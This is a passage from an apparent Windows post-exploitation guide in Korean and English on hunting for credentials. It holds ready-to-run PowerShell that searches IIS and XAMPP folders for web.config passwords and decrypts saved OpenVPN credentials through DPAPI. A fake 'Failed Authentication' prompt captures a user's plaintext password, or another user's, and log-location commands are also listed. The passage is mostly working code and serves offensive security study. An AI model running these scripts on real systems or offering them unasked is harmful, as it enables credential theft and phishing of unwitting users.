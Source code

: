 ```powershell
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```
```markdown
자격 증명이 포함된 web.config의 예:
```
```xml
<authentication mode="Forms">
<forms name="login" loginUrl="/admin">
<credentials passwordFormat = "Clear">
<user name="Administrator" password="SuperAdminPassword" />
</credentials>
</forms>
</authentication>
```
### OpenVPN 자격 증명
```csharp
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}

foreach ($item in $items)
{
$encryptedbytes=$item.'auth-data'
$entropy=$item.'entropy'
$entropy=$entropy[0..(($entropy.Length)-2)]

$decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
$encryptedBytes,
$entropy,
[System.Security.Cryptography.DataProtectionScope]::CurrentUser)

Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```
### 로그
```bash
# IIS
C:\inetpub\logs\LogFiles\*

#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```
### Ask for credentials

You can always **ask the user to enter his credentials of even the credentials of a different user** if you think he can know them (notice that **asking** the client directly for the **credentials** is really **risky**):
```bash
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password
$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'anotherusername',[Environment]::UserDomainName); $cred.getnetworkcredential().password

#Get plaintext
$cred.GetNetworkCredential() | fl
```
### **자격 증명이 포함된 가능한 파일 이름**
